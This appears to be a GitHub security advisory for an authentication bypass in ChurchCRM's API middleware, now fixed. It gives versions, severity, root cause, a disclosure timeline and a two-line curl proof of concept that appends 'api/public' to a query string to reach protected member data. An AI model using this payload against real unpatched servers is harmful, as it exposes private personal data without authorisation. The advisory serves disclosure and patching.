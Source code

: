 # ChurchCRM — API Authentication Bypass (minimal PoC)

**Status:** Fixed (PR #7376 merged Oct 4, 2025) — CVE pending/requested  
**Severity:** **Critical** — CVSS v3.1 **9.4** (`AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:L`)

**Affected versions:** `ChurchCRM <= 5.18.0`  
**Patched versions:** `>= 5.18.1` (patch merged in PR #7376 — confirm release tag)

**Fix PR:** https://github.com/ChurchCRM/CRM/pull/7376 (merge commit `3a1cffd`)

---

## Summary
A critical authentication bypass in ChurchCRM’s API middleware allows unauthenticated attackers to access and, in some cases, manipulate protected API endpoints by including the substring `api/public` anywhere in the request URI (path, query string, or fragment). The root cause is a string match against the full URI instead of the request path.

---

## Minimal POC

```bash
### unauthenticated (expected HTTP/401)
curl -i 'https://<target>/api/persons/latest'

### bypass by adding query parameter (returns HTTP/200 and member data)
curl -i 'https://<target>/api/persons/latest?bypass=api/public'
```

---

## Timeline
- 2025-09-26 — Reported privately via GitHub security advisory.
- 2025-10-04 — Fix merged in PR #7376; maintainer closed the private advisory.
